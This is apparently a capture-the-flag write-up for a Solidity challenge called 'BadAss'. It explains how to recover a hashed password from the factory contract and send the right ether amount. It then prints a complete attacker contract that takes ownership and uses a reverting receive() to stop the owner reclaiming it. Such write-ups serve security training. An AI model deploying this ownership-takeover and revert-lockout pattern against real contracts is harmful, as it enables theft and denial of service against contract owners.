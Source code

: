 # BadAss

## Solution :

To validate this challenge, all you have to do is to find the password which is encrypted with the keccak256 procedure and find the good amount of ether to send.

And finally set up a revert system so that the owner can't reclaim the challenge.

To find the password, you need to check the `BadAssFactory.sol` file and to find the ethers' amount, check the amount that you send when you start the challenge.

```sol
// SPDX-License-Identifier: MIT

pragma solidity ^0.6.0;

import "../../levels/hardChalls/BadAss.sol";

contract AttackBadAss {
    
    address payable originalContract;
    string password = "0x476F6F64206A6F622C20796F75206B6E6F7720686F7720746F2066696E642074686520696E666F732061742074686520726F6F742121";

    constructor(address payable _originalContract) public {
        originalContract = _originalContract;
    }
    
    function exploit() public payable {
        require(msg.value == 0.01 ether);
        bytes memory payload = abi.encodeWithSignature("takeOwnerShip(bytes32)", keccak256(abi.encodePacked(password)));
        address(originalContract).call.value(msg.value)(payload);
    }

    receive() external payable {
        revert("Trigger");
    }
}

```